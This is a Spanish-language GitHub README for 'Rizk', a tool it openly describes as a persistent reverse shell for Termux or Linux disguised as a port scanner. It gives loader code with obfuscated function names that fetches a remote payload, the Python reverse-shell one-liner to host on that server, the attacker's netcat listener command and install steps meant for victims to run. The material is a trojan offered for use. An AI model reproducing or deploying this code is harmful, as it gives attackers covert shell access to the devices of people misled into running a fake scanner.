 <h1 align="center">Rizk</h1>
<p align="center">Advertencia: Esto es una shell inversa persistente enfocado a Termux o Linux, simula ser un escaner de puertos.</p>

## Los datos mas importantes son: 
| rizk/fields/mysx/asa.py
```python
import requests
r = requests.get('https://host/codepython.html')
# r: Aquí se inserta un código malicioso, una shell inversa 

p = requests.get('https://host/ipport.html')
#p: Aquí se coloca ip y puerto: ejemplo en el html 192.168.0.1:1234

def aspojffqwafouwe():
	return (r.text).encode("utf-16") # retorna el contenido de r codificado en utf-16
def foewijgreoig():
	return (p.text.encode("utf-16")) # retorna el contenido de p codificado en utf-16
```

| El enlace "https://host/codepython.html" debe tener lo siguiente en su interior:
```html
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HOST",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

| El enlace "https://host/ipport.html" debe tener lo siguiente en su interior:
```html
HOST:PORT
```

## Atacante:
El atacante tendrá que esperar para recibir los datos con netcat:
```bash
nc -nvlp 1234
```

## Victima:
la victima deberá instalar la aplicación y correrla sin mas

# Instalación:

| Descargar
```git
git clone https://github.com/krootca/rizk.git
```
| Entrar en el archivo
```git
cd rizk
```
| Instalar los requisitos:
```git
pip install -r requirements.txt
```
| Uso:
```git
python init.py
```
